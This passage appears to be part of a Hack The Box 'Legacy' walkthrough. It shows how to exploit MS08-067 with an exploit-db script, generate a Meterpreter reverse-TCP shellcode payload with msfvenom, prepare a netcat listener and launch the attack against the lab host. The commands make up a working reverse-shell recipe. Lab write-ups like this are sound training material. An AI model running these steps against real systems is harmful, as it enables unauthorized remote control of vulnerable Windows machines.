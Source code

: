 Copied to: /root/htb/legacy/40279.py
`

Executing python 40279.py shows some missing depedencies of Impacket and PyCrypto.  Install with Pip.

pip install Impacket
pip install PyCrypto

Checking the file, we need to generate our unique payload.  

`
# grep msfvenom 40279.py 
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python

`

Seems simple enough.  Fire up msfvenom.

`
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python                                                
`

The msfvenom ouptut is in an array called buf[], but the Python script uses shellcode[]. Search and replace to use buf[].  
Okay, ready to execute and listen for incoming traffic on local port 443 with netcat.

`
# grep Example 40279.py 
                                print 'Example: MS08_067.py 192.168.1.1 1 for Windows XP SP0/SP1 Universal\n'
                                print 'Example: MS08_067.py 192.168.1.1 2 for Windows 2000 Universal\n'

# python 40279.py 10.10.10.4 1

#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#######################################################################
